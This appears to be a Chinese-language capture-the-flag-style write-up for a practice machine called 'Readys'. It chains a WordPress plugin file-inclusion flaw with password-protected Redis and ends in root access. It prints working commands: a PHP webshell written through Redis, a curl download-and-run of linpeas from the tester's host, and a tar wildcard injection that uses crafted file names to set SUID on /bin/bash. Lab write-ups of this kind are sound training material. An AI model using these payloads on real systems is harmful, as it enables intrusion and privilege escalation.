- Difficulty: Linux
- Community Rate: Very Hard
- OS: Windows
Nmap result
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
| 256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
| 256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp open http syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.7.2
|_http-title: Readys – Just another WordPress site
6379/tcp open redis syn-ack ttl 61 Redis key-value store
Initial Foothold
80 HTTP 类似于一个个人博客，大标题上有说用了wordpress

直接用wpsscan扫描一下：
wpscan --url http://192.168.201.166/ -e vp --plugins-detection mixed --api-token token

扫描出来Site Editor这个插件有LFI漏洞，搜索一下CVE-2018-7422，在ExploitDatabase找到相应POC。

尝试访问这个URI：

漏洞存在。获得用户名alice，因为22 ssh端口开放，尝试下能否获得用户的id_rsa.

可惜找不到文件. 再尝试下.bash_history是否存在:

也没有，但可以直接获得local.txt

尝试找一下webroot：

应该就是在/var/www/html/ 这下面 如文件不存在则会返回Not Found.
暂且搁置80, 看看其他的端口。6379端口显示是redis服务器：

google一下是什么：
Redis（Remote Dictionary Server）是一个开源的内存数据结构存储系统，主要用于缓存、消息队列和高性能键值数据库场景。
在Hacktricks里能找到渗透redis的方法. 先安装对应的工具, 并尝试连接:
sudo apt-get install redis-tools
redis-cli -h 192.168.201.166
192.168.201.166:6379>info
NOAUTH Authentication required.
服务器开启了验证, 需要先拿到credential. Hacktricks里也提到了redis.conf文件里可能会包含验证所需的密码。在网上找了一圈redis.conf location后在/etc/redis/redis.conf找到这个文件:

在文中找到密码 Ready4Redis? 尝试验证：

验证成功.
Hacktricks中也提到，可以利用redis-cli在服务器上创建文件 可以尝试上传一个webshell

尝试了很多位置，都以error结束。

然后又尝试了hacktricks里提到的: radis-rogue-server 但这个项目是好多年前的了，用了几个类似的exploit全都不管用. 卡在这里了很久, 看了别人的writeup都可以运行, 我这边无论如何都不能跑. 无奈去看了官方的Writeup, 受益匪浅.
官方Writeup则是先利用LFI查看/etc/systemd/system/redis.service中的信息. 这个文件中包含了服务的各种配置，例如哪里可读，哪里可写：

尝试在/opt/redis-files下写入文件：
192.168.201.166:6379> config set dir /opt/redis-files
OK
192.168.201.166:6379> config set dbfilename redis.php
OK
192.168.201.166:6379> set test "<?php system($_GET['cmd']); ?>"
OK
192.168.201.166:6379> save
OK
终于成功，接下来就可以利用LFI来访问刚刚创建的php文件.

成功执行命令. 尝试获得reverse shell:

没有连接.. 可能是编码的问题？用url编码试试. 随便找了个url encoder网站：

再次尝试：

成功获得shell. 用python升级一下刀tty shell.
python3 -c 'import pty;pty.spawn("/bin/bash")'
在alice home下找到local.txt

Root
上传linpeas并运行：
alice@readys:/home/alice$ curl -o lin http://192.168.45.202/linpeas
curl -o lin http://192.168.45.202/linpeas
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 3151k 100 3151k 0 0 430k 0 0:00:07 0:00:07 --:--:-- 488k
alice@readys:/home/alice$ chmod +x lin
chmod +x lin
alice@readys:/home/alice$ ./lin

发现root运行了一个cronjob, 看看这个文件里是什么:
cat /usr/local/bin/backup.sh
#!/bin/bash
cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
这个任务会先进入/var/www/html, 并把目录下的文件打包起来。***** 使得我们可以把文件名当做参数传递给 tar. 看到tar 和 * 就能想到wildcard attack了，之前有做过这样的靶机. 这篇博客里有详细教程.
cd /var/www/html
echo "12312331232231" > '--checkpoint=1'
echo "1212331232231312" > '--checkpoint-action=exec=sh pe.sh'
echo "chmod u+s /bin/bash" > pe.sh
登记分钟后, /bin/bash就会被加上 suid:
alice@readys:/var/www/html$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18 2019 /bin/bash
alice@readys:/var/www/html$ /bin/bash -p
/bin/bash -p
bash-5.0# id
id
uid=1000(alice) gid=1000(alice) euid=0(root) groups=1000(alice)
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
proof.txt
在root下找到proof.txt
我学到了什么
- /etc/systemd/system/xxx.service文件 包含有service的信息 例如读写权限
Happy Hacking